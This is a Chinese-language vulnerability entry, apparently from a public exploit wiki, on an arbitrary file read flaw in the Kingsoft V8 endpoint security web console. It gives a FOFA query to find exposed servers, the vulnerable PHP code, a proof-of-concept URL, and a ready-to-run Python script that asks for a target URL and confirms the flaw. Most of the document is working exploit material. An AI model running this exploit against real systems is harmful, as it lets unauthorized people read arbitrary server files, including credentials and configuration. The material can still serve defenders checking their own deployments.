 # 金山 V8 终端安全系统 任意文件读取漏洞

## 漏洞描述

金山 V8 终端安全系统 存在任意文件读取漏洞，攻击者可以通过漏洞下载服务器任意文件

## 漏洞影响

> [!NOTE]
>
> 金山 V8 终端安全系统 

## FOFA

> [!NOTE]
>
> title="在线安装-V8+终端安全系统Web控制台"

## 漏洞复现

存在漏洞的文件 **/Console/htmltopdf/downfile.php**

```php
<?php	
			$filename= $_GET["filename"];
            
			$filename=iconv("UTF-8","GBK//IGNORE", $filename);

   			header("Cache-Control: public"); 
			header("Content-Description: File Transfer"); 
			header('Content-disposition: attachment; filename='.$filename); //文件名   
			header("Content-Type: application/zip"); //zip格式的   
			header("Content-Transfer-Encoding: binary"); //告诉浏览器，这是二进制文件    
			header('Content-Length: '. filesize($filename)); //告诉浏览器，文件大小   
			@readfile($filename);
			?>
```

文件中没有任何的过滤 通过filename参数即可下载任意文件

POC为

```
http://xxx.xxx.xxx.xxx/htmltopdf/downfile.php?filename=downfile.php
```

![](http://wikioss.peiqi.tech/vuln/js-4.png)

## 漏洞POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle  : 金山 V8 终端安全系统 任意文件读取漏洞                          \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/htmltopdf/downfile.php?filename=downfile.php"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "$filename" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 存在漏洞 , 响应为:\n{} \033[0m".format(target_url, response.text))
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](http://wikioss.peiqi.tech/vuln/js-5.png)

## Goby & POC

> [!NOTE]
>
> Kingsoft V8 Arbitrary file read

![](http://wikioss.peiqi.tech/vuln/js-6.png)